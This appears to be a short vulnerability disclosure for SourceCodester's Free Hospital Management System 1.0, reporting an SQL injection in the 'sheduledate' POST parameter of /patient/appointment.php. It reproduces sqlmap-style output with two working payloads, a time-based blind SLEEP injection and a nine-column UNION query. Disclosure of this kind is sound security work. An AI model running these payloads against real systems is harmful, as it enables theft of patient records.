

https://www.sourcecodester.com/php/16720/free-hospital-management-system-small-practices.html

## Free Hospital Management System for Small Practices 1.0

A vulnerability classified as critical has been found in SourceCodester Free Hospital Management System for Small Practices 1.0. Affected is an unknown function of the file /patient/appointment.php

The manipulation of the argument: sheduledate

---
Parameter: sheduledate (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: sheduledate=2023-08-24' AND (SELECT 7187 FROM (SELECT(SLEEP(5)))sIsM) AND 'mPuB'='mPuB

    Type: UNION query
    Title: Generic UNION query (NULL) - 9 columns
    Payload: sheduledate=2023-08-24' UNION ALL SELECT 43,43,43,43,43,43,43,CONCAT(0x7170717a71,0x716e716574505a584f787954516777664772734e566b676d717a45666e65774d5a554250687a6748,0x71626b7871),43-- -
---